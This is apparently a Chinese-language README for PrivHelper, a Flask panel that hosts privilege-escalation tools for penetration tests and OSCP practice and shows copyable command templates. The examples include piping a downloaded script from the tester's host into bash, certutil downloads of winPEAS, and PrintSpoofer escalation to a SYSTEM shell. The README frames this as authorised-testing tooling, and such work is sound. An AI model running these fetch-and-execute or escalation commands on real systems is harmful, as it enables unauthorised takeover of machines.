








# PrivHelper v1.0.0
## 简介

作者：~~Ra's Al Ghul~~

PrivHelper 是一个面向渗透测试/OSCP场景的轻量级提权辅助面板，用于统一管理本地工具集（tools 目录），并提供一个 HTTP 文件服务器给目标机下载，同时在 Web 面板中展示每个工具的使用说明与下载直链（点击即可复制）。**本项目主要目的是提高效率，方便管理工具，防止每次都要在不同的工具目录开http服务，手动敲下载命令或者找笔记怎么使用。**

**思路上借鉴了senderend大佬的[hackbook项目](https://github.com/senderend/hackbook)**

目前启动后的页面



## 功能特性

- Web 面板展示工具树：按 windows / linux / other 分类，支持多级目录
- 每个工具默认展示下载直链（点击复制）
- 读取同名 .usage 文件，展示常用命令（点击复制）
- 内置 HTTP 文件服务器，支持访问日志查看
- BADIP 可在页面手动更新并持久化到浏览器本地存储

## 运行方式

环境要求：

- Python 3
- Flask

安装依赖：

```bash
pip install flask
```

启动：

```bash
python app.py
```

Windows 机器如果系统里同时存在 Python2/3，建议用：

```bash
py -3 app.py
```

启动后会同时运行：

- Web 面板：默认 `0.0.0.0:5000`
- HTTP 下载服务：默认从 `0.0.0.0:80` 开始探测可用端口（占用则自动 +1）

### 启动参数

- `-l / --web-port`：Web 面板端口（默认 5000）
- `-p / --http-port`：HTTP 文件服务端口（不指定则从 80 自动+1寻找可用端口）
- `-badip / --bad-ip`：默认 BADIP（不指定则 Linux 下优先取 tun0 IPv4，失败则回退）

示例：

```bash
# 指定 Web 端口
python app.py -l 9000

# 指定下载服务端口
python app.py -p 8080

# 强制指定 BADIP
python app.py -badip 10.10.14.3
```

## tools 目录结构

工具默认放在项目根目录的 tools 下：

```text
tools/
  windows/
    bin/
    script/
  linux/
    bin/
    script/
  other/
```

你可以任意新增多级子目录，例如 `tools/windows/bin/privesc/xxx.exe`，面板会自动递归识别并展示。

## .usage 文件规范

每个工具（文件）可以配一个同名 `.usage` 文件，用来展示说明与命令模板：

- 工具：`tools/windows/bin/winPEASx64.exe`
- 说明：`tools/windows/bin/winPEASx64.exe.usage`

格式规则：

- 第 1 行：描述（展示为工具说明，或者可以直接将官方项目地址写在这里）
- 第 2 行起：命令（逐行展示；前端点击即可复制）
- 单行注释：以 `#` 开头的行会被当作注释，默认不展示（用于保留旧写法/备份）
- 多行注释：用 `###` 包裹，默认不展示，但可在前端点击“注释”按钮展开/折叠，例如：

```text
###
这是一个示例多行注释，在前端默认隐藏，但是也可以显示
###

###
这是第二个示例多行注释，在前端默认隐藏，但是也可以显示
###
```

## 变量替换（核心）

在 `.usage` 的命令中可使用以下变量，面板渲染时会自动替换：

- `$badip`：BADIP（页面可改；Linux 默认优先使用 tun0 IPv4）
- `$badurl`：下载服务根地址，例如 `http://$badip:80`（端口会跟随实际 HTTP 服务端口）
- `$downloadurl`：当前工具的下载直链，例如 `http://$badip:80/windows/bin/winPEASx64.exe`
- `$badfile`：当前工具的文件名（不含路径），例如 `winPEASx64.exe`

推荐优先使用 `$downloadurl`，因为它不依赖你手动拼接路径，目录变动也不需要改命令模板。

提示：以上变量在多行注释块（`###` 包裹）里也会被替换后显示和复制。

## 经典示例

### linpeas

[Release Release refs/heads/master 20260323-31545e76 · peass-ng/PEASS-ng · GitHub](https://github.com/peass-ng/PEASS-ng/releases/tag/20260323-31545e76)

#### 脚本

为linpeas.sh编写.usage

```
官方地址：https://github.com/peass-ng/PEASS-ng/releases/download/20260315-d7c1e6ce/
curl $downloadurl | bash
cd /tmp && wget $downloadurl && chmod +x $badfile && ./$badfile

###
第一条命令适用于有curl的情况下，第二条命令适用于没有curl但有wget的情况下
###
```

前端显示如下图



点击注释后，可以显示自己写好的注释，可以当作一个备忘录



#### 二进制程序

为linpeas_linux_amd64编写.usage

```
amd64-官方地址：https://github.com/peass-ng/PEASS-ng/releases/download/20260315-d7c1e6ce/
cd /tmp && wget $downloadurl && chmod +x $badfile && ./$badfile
```

前端显示如下图



### winpeas

为winPEASx64.exe编写.usage

```
项目地址:https://github.com/peass-ng/PEASS-ng
certutil -urlcache -split -f $downloadurl C:\windows\temp\$badfile
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
C:\windows\temp\$badfile

###
第一条命令为下载winpeas到C:\windows\temp目录下
第二条命令为改注册表使得winpeas能够格式化输出
第三条命令为运行winpeas
###
```

前端显示如下



### PrintSpoofer

为PrintSpoofer64.exe编写.usage

```
项目地址:https://github.com/itm4n/PrintSpoofer
certutil -urlcache -split -f $downloadurl C:\windows\temp\$badile
C:\windows\temp\$badfile -i -c cmd

###
这是一个利用SeImpersonatePrivilege特权进行提权的程序
如果失败，可检查服务状态：Get-Service Spooler，stop则无法直接利用
###
```

前端显示如下



### 什么都不写，仅下载用

直接把文件丢在tools/other目录即可，如下



前端也会显示下载直链的，可以复制粘贴拿去自己操作使用，适合非通用场景，可能这个exp只用这一次，编译完扔进去用就行了，也不用编写.usage

## 日志

http日志默认会显示在页面最下方，状态码200绿色，其他红色，便于排错



日志目录（logs）下的文件仅用于程序运行中记录http日志，每次启动会清空

## 免责声明

本项目仅用于合法授权的安全测试、学习研究与内部自查场景：

- 禁止用于任何未授权的入侵、破坏、数据窃取或其他违法行为
- 使用本项目产生的任何直接或间接后果由使用者自行承担
- 作者不对任何滥用行为负责，也不提供针对非法用途的支持
